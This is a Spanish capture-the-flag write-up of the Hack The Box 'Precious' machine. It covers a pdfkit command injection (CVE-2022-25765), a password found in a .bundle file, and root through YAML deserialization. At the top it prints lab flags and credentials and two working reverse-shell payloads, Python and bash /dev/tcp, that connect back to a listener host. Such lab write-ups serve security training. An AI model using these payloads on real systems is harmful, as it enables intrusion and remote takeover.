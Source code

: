 # Hack The Box
    
  

  ![](portada.png)
  
## Máquina Precious

  



### Solución
    
    USER FLAG: "henry:Q3c1AqGHtoI0aXAYFH" >> /home/henry/user.txt >> 112bb323ac23f4a06b02be2e6d4a05b3
    
    ROOT FLAG: "root:650c7efc2338f853a15e7755eada5817" >> /root/root.txt >> 650c7efc2338f853a15e7755eada5817
    
    REVERSE SHELLS: 
    
    http://10.10.14.253/?name=%20`python3 -c 'import 
    socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.253",9001));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` 
    
    http://10.10.14.253:9001/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.253/9001 <&1'`}
   

### Escaneo nmap

![](nmap.png)

### Añadimos el dominio al etc/hosts

![](redirect.png)

### Abrimos la página

![](1.png)

### Testeamos sus funciones con la url

![](2.png)

### Abriendo server en python

El server tiene un servicio que convierte páginas web en pdf, para ello necesitamos tener un servidor ejecutándose en nuestra máquina.

![](3.png)

### Descarga y análisis del pdf

Analizando los metadatos vemos que el pdf fué creado con pdfkit v0.8.6 el cual tiene un CVE-2022-25765 el cual nos dice que una app podría ser vulnerable si intenta representar una URL que tiene parámetros de cadena de consulta con la entrada del usuario.


![](4.png)

![](5.png)

![](6.png)

![](7.png)

### Reverse shell

Abriremos un oyente con netcat e introducimos nuestra reverse shell dentro de las comillas del código anterior, una vez hecho esto tendremos una shell.

![](8.png)

![](9.png)

![](10ng)

### Capturando la flag

Navegando entre directorios encontramos en el /home/henry un archivo llamado user.txt el cual no nos dejará acceder con los permisos actuales, en el archivo .bundle encontramos una password del usuario henry y ya podemos leer nuestra flag

![](11.png)

![](12.png)

![](13.png)

### Escalada de privilegios a ROOT

Haciendo sudo -l listamos lo que podemos ejecutar desde esta cuenta de usuario y que descubrimos henry puede ejecutar como root el archivo /opt/update_dependecies.rb el cual tras un vistazo al código vemos que usa YAML.LOAD que es vulnerable al ataque de deserialización, para esto necesitamos crear una carga dentro de un archivo llamado dependencies.yml.

![](14.png)

![](15.png)

![](16.png)

Para hacer esto decidí cambiar a una shell de bash y estabilizarla por comodidad.

![](18.png)

Cargamos con un echo "--- nuestra carga para modificar el archivo dependencies.yml.

![](17.png)

![](19.png)

Comprobamos los cambios y utilizamos la función update_dependencies.rb para que lea nuestra carga y abrimos shell de ROOT.

![](20.png)

![](21.png)

Pwned!

![](22.png)


![](pwned.png)

**Autor:** [AlbertoMiñan](https://github.com/albertominan)
